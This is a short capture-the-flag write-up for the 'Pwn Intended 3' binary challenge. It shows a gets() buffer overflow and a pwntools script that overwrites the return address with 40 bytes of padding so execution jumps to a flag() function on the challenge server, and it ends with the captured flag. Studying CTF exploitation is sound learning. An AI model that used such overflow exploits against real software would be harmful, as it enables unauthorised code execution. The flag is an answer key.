

# Pwn Intended 3
Again, smashing the keyboard doesn't work. Sadly. Let's check out the protections:



Same thing again, GHidra decompilation time.


Again, `gets()` shows a clear buffer overflow vulnerability. Among other functions there is a `flag()` function.


So, calling `flag()` returns the flag. Unsurprisingly.

## Exploitation
We'll be using the buffer overflow vulnerability to redirect code execution to the `flag()` function. Some experimenting shows a padding of 40 bytes is needed to overwrite RIP.

```python
from pwn import *

elf = ELF('./vuln')
p = remote('chall.csivit.com', 30013)

payload = b'A' * 40
payload += p64(elf.symbols['flag'])

p.clean()
p.sendline(payload)

print(p.clean(2).decode())
```

**csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}**